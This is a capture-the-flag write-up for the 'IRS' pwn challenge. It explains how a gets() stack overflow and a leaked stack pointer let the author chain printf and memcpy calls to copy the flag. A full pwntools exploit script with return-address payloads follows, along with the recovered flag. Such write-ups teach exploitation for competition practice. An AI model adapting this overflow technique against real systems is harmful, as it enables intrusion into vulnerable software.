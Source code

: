## IRS (PWN 100)

by droofe

When running the binary, I started by noticing that Mr. Trumps tax return was already filed. Hm? Lets go ahead and try to open it!

```
Welcome to the IRS!
How may we serve you today?
1. File a tax return
2. Delete a tax return
3. Edit a tax return
4. View a tax return
5. Exit

Tax returns on file:
0 - Donald Trump
4
Enter the name of the file to view: Donald Trump
Enter the password: ...
```


Password protected... okay awesome. After messing around and filing a few tax returns on my own, the program complained after I had made four additional returns, saying "blah blah blah, if this problem persists call us at 0xf7d35678". 

WOW! A free leak already. So, I decided to drop the binary into IDA and see what I was dealing with.

After some analysis, I saw that the binary started off and malloc'ed a space for Donald Trumps tax return and put the flag as the password. Awesome, goal: find the password to his tax return.

### Vulnerability
The vulnerability comes into play if you try to edit your tax return. After editing the tax return, it asks you to confirm, prompting you for `[y/n]`, which is read in by none other than `gets(char* )`. Turns out the pointer given above was a pointer to the spot on the stack that holds the malloc'ed address of Trumps Tax return. Using the gets stack control, I used printf to leak that address with my first edit, and then memcpy to move the password to the name field with the second edit.

```python
from pwn import *
from time import sleep

s = 0

def fileReturn(name, password, income, deduc):
	s.sendline("1")
	for item in [name, password, income, deduc]:
		s.recvuntil(": ")
		s.sendline(item)
	garbage = s.recvuntil("!")
	menu = s.recv(1024)

def editReturn(name, password, income, deduc, payload, time=1):
	s.sendline("3")
	for item in [name, password, income, deduc]:
		s.recvuntil(": ")
		s.sendline(item)
	for item in payload:
		s.send(item)
	s.sendline("")
	s.recvuntil("recorded!")
	s.recv(2)

	if time==1:
		return int(s.recvuntil("\n")[:4][::-1].encode('hex'),16)

def getStackAddress():
	s.sendline("1")
	s.recvuntil(": ")
	address = int((s.recvuntil("\n").strip()[2::]),16)
	menu = s.recv(1024)
	return address

#s = process("./irs", env={"LD_LIBRARY_PATH": "."})
s = remote("irs.pwn.republican", 4127)
#e = ELF("./irs")

#raw_input("Waiting...")

menu = s.recv(1024)

fileReturn("edwood", "password1", "100", "100")
fileReturn("edwood", "password2", "100", "100")
fileReturn("edwood", "password3", "100", "100")
fileReturn("edwood", "password4", "100", "100")

stackAddr = getStackAddress()
ebp = stackAddr + 0x30
log.info("Stack address {:x}".format(stackAddr))
log.info("EBP address {:x}".format(ebp))

payload = ['A'*21,
			p32(ebp),
			p32(0x080484D0), #call to printf
			p32(0x08048AFD), #ret to main
			p32(stackAddr),
			]

my_heapaddr = editReturn("edwood", "password1", "100", "100", payload)

their_heapaddr_name = my_heapaddr
their_heapaddr_flag = their_heapaddr_name + 50

log.info("Name at {:x}".format(their_heapaddr_name))
log.info("Flag at {:x}".format(their_heapaddr_flag))

payload = ['A'*21,
			p32(ebp),
			p32(0x08048528), #call to memcpy
			p32(0x08048AFD), #ret to main
			p32(their_heapaddr_name), #dst
			p32(their_heapaddr_flag), #src
			p32(50) #len
			]


editReturn("edwood", "password1", "100", "100", payload, time=2)
s.interactive()


# flag{c4n_1_g3t_a_r3fund}
```
